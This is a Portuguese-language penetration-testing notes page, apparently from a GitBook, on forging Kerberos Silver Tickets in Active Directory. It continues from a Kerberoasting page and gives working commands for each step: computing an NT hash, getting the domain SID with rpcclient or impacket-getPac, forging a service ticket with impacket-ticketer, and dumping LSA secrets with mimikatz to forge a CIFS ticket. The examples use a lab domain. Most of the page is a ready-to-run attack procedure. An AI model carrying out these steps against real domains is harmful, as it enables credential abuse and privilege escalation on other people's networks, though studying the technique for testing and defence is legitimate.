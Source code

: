 # Silver Ticket

Até aqui a gente já deve obter as credenciais da conta SPN seguindo o que está escrito na página anterior. ([Kerberoasting](kerberoasting.md))

No entanto, é necessário mais algumas informações pra que a gente consiga fazer o silver ticket, que consiste em gerar um ticket de SPN com as permissões que quisermos (full que seria o default das ferramentas, ou podemos setar as quais quisermos) para obter versatilidade nos recursos de rede para escalada de privilégio.

### 1 - Hash NTLM do SPN

Então precisaremos do hash nt da senha do serviço spn:

```
iconv -f ASCII -t UTF-16LE <(printf "Password") | openssl dgst -md4
```

ou

```
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "Password".encode("utf-16le")).digest()))'
```

### 2 - Domain SID

Outra informação que precisamos é o domain SID que podemos obter de diversas formas, sendo elas

#### via RPC

```
rpcclient -U user <hostname>
lookupnames username
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>Domain SID</p></figcaption></figure>

#### via impacket (remotely)

```
impacket-getPac domain/username:password -targetUser username
##Exemplo
impacket-getPac scrm.local/ksimpson:ksimpson -targetUser ksimpson
```

### 3 - SPN

O nome do SPN basicamente já teremos seguindo os passos anteriores documentados em [Kerberoasting](kerberoasting.md).

Depois disso, podemos gerar o silver ticket de maneira remota ou local na máquina da vítima:

#### impacket

```
impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain domain.name -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash ntlm_da_senha_do_spn -dc-ip hostname.dodc adm
```

Exemplo

```
impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash b999a16500b87d17ec7f2e2a68778f05 -dc-ip dc1.scrm.local adm
```

FAZENDO COM O HASH DE SENHA DA MÁQUINA

```
mimikatz.exe
privilege::debug
lsadump::lsa /patch
kerberos::golden /user:admin /domain:scrm.local /sid:S-1-5-21-2743207045-1827831105-2542523200 /target:DC1.scrm.local /service:cifs /rc4:a4ce9e577c1298c759340f09b3546950 /ticket:c:\temp\test_cifs.kirbi
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>
